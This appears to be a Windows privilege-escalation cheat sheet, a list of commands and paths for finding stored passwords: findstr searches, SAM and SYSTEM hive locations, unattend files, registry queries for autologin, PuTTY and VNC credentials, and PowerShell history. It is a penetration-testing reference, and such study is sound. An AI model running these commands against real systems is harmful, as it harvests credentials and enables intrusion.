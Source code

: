 ##### Commands
- findstr /si password *.txt
- findstr /si password *.xml
- findstr /si password *.ini

#Find all those strings in config files.
- dir /s *pass* == *cred* == *vnc* == *.config*

#Find all passwords in all files.
- findstr /spin "password" *.*
- findstr /spin "password" *.*


##### SAM and SYSTEM files
- C:\Windows\repair\SAM
- C:\Windows\System32\config\RegBack\SAM
- C:\Windows\System32\config\SAM
- C:\Windows\repair\system
- C:\Windows\System32\config\SYSTEM
- C:\Windows\System32\config\RegBack\system

##### Search for file contents
- C:\Windows\system32\sysprep.inf
- C:\Windows\system32\sysprep\sysprep.xml\*vnc.ini /s /b
- dir c: C:\unattend.xml
- C:\Windows\Panther\Unattend.xml
- C:\Windows\Panther\Unattend\Unattend.xml
- dir c:\*ultravnc.ini /s /b
- dir c:\ /s /b | findstr /si *vnc.ini

##### Search the registry for key names and passwords
- REG QUERY HKLM /F "password" /t REG_SZ /S /K
- REG QUERY HKCU /F "password" /t REG_SZ /S /K

##### Passwords stored in services
###### Windows Autologin
- reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 

###### SNMP parameters
- reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" 

###### Putty clear text proxy credentials
- reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

###### VNC credentials
- reg query "HKCU\Software\ORL\WinVNC3\Password"
- reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

##### Powershell history
- C:\Users\swissky\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
- 	$env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt


### 3.	EOP : Processes Enumeration and Tasks

